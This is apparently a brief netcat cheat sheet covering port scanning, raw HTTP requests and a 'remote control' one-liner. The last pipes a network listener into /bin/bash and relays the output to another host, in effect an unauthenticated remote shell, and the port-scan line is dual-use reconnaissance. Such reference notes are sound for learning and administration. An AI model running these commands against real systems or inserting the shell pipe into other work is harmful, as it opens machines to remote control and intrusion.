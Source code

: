 # Netcat

PORT SCANNING
The -z flag can be used to tell nc to report open ports, rather than initiate a connection. Usually it's useful to turn on verbose output to stderr by use this option in conjunction with -v option.
```
$ nc -zv 192.168.0.1 1-1024 2>&1 | grep "succeeded"
```

TALKING TO SERVERS
```
echo "GET / HTTP/1.1\r\nHost: api.ipify.org\r\n\r\n" -n | nc -N api.ipify.org 80
```

REMOTE CONTROL
```
nc -l 5000 | /bin/bash 2>&1 | nc 192.168.0.39 5001
```